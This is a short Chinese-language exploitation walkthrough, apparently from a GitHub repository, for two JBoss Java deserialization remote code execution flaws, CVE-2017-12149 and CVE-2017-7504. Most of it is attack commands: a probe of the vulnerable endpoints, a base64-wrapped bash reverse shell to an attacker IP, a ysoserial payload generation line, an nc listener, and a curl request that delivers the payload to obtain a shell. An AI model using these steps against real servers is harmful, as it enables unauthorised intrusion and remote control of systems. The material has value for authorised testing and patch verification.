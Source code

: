 #漏洞1 jboss 反序列化命令执行漏洞 （CVE-2017-12149）

漏洞简介：
JBoss Application Server 反序列化命令执行漏洞（CVE-2017-12149），远程攻击者利用漏洞可以在未经过任何身份验证的服务器主机上执行任意代码。漏洞为高。该漏洞为java反序列化错误类型，存在于jboss的HttpInvoker组件中的ReadOnlyAccessFilter过滤器没有经过任何安全检查的情况下尝试将来自客户端的数据流进行反序列化，从而导致了漏洞。

影响范围：
JBoss 5.x
JBoss 6.x

漏洞复现：
1. 访问ip:port/invoker/readonly。返回状态码为500的报错页面，则证明漏洞存在

2. 正常的bash会被分割，如” bash -i >& /dev/tcp/Attack_ip/Attack_port 0>&1” 会被分割成一个一个单词。所以我们对上边的内容进行base64编码。

3. 然后生成poc代码：
java  -jar  ysoserial.jar  CommonsCollections1 "bash -c {echo,base64编码后的内容}|{base64,-d}|{bash,-i}" > poc.ser

4. 本地监听，nc -lvp 8888

5. 执行poc即可获取shell
curl http://ip:port/invoker/readonly --data-binary @poc.ser

#漏洞2 JBossMQ JM 反序列化漏洞 （CVE-2017-7504）

漏洞介绍：
Red Hat JBoss Application Server（AS，也称WildFly）是美国红帽（Red Hat）公司的一款基于JavaEE的开源的应用服务器，它具有启动超快、轻量、模块化设计、热部署和并行部署、简洁管理、域管理及第一类元件等特性。Jboss AS 4.x及之前版本中,JbossMQ实现过程的JMS over HTTP Invocation Layer的HTTPServerILServlet.java文件存在反序列化漏洞,远程攻击者可借助特制的序列化数据利用该漏洞执行任意代码。

影响版本：
4.x及以下

漏洞复现：
1. 访问下边页面
http://ip:port/jbossmq-httpil/HTTPServerILServlet
如果出现则代表存在漏洞

其他复现和上边2之后一样


